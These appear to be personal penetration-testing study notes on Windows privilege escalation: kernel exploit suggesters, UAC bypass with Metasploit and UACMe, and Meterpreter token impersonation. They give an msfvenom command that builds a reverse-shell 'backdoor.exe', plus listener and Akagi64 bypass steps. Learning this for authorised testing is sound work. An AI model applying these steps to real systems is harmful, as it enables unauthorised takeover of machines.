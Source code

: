 ## kernel exploits
![](</Images/Pasted image 20231204192850.png>)

Windows NT comes with all versions of Windows. Two main modes:
- User Mode
- Kernel Mode: unrestricted access to system

MANUAL METHOD
>Two tools:
>Windows-Exploit-Suggester
	- Found on github and finds exploits that are available
  Windows-Kernel-Exploits
	- Collection of exploits sorted by CVE number
	- Use after finding suggested exploits from above tool
	- use .exe file or compile own
	- upload with meterpreter and run

#Meterpreter can attempt to escalate privs via `getsystem`

#msfconsole auto method
>Once session is created use msfconsole `/post/multi/recon/local_exploit_suggester` this will list out different methods to try

## Bypassing UAC (User Access Control)

- Need to have access to user account with local admin group
- UAC can have various levels of integrity. If set lower than high programs can be executed without dialog box

### turning off UAC with metasploit
> meterpreter must be 64bit

To see group info, switch from meterpreter to shell
See users on machine: `net user`
See which users are in admin group: `net localgroup administrators`

To bypass UAC. Need session in background
Search `bypassuac_injection` many versions

### UACMe
- found on github https://github.com/hfiref0x/UACME
- Abuses inbuilt Windows AutoElevate tool

Windows commands for users
>net users list out users on system
>net localgroup administrators

>Upgrade #meterpreter from 32 to 64 by `pgrep explorer` and then `migrate` the process number

`getprivs` to show current privileges

>System error 5 shows dialog box error

Use akagi32 or akagi64. Use method 23 

> create payload with msfvenom
> `-p <payload ex. windows/meterpreter.reverse_tcp> LHOST and LPORT (listen) -f exe > backdoor.exe`

> then create listener with msfconsole
> `use multi/handler` 
> Set LHOST and LPORT the same as msfvemon

>using original meterpreter session upload file from msvemon and akagi64 to temp

> open shell system via `shell`

> reason why uloading two files. The backdoor file is the payload we want to run. In this case it's a listener with elevated privs. This won't run without Akagi64.exe as this is what bypasses UAC and grants admin processes

> final command goes `Akagi64.exe <method number> <msfvenom file>`

Can then list out any processes `ps` and migrate to process number and gain priv esc.

## Access Token

![](</Images/Pasted image 20231206184627.png>)

![](</Images/Pasted image 20231206184951.png>)

Meterpreter has built in tool called incognito. Need to have SeImpersonatePrivilege

1. need to get #meterpreter session first with #msfconsole
2. See if user access has correct token `getprivs`
3. `load incognito`
4. `list_tokens -u`
5. `impersonate_token <token name>`
6. `pgrep explorer`
7. `migrate <process>` needs to be Administrator etc
8. `get privs` this should be elevated now

If no tokens are available from 4 use "potato attack"

# Looking for privesc vectors

Automated tool: PrivescCheck found on [github](https://github.com/itm4n/PrivescCheck)
- needs to be transferred over to target
- look on github for use instructions

With credentials can use psexec.py to log onto SMB  via username@ip address
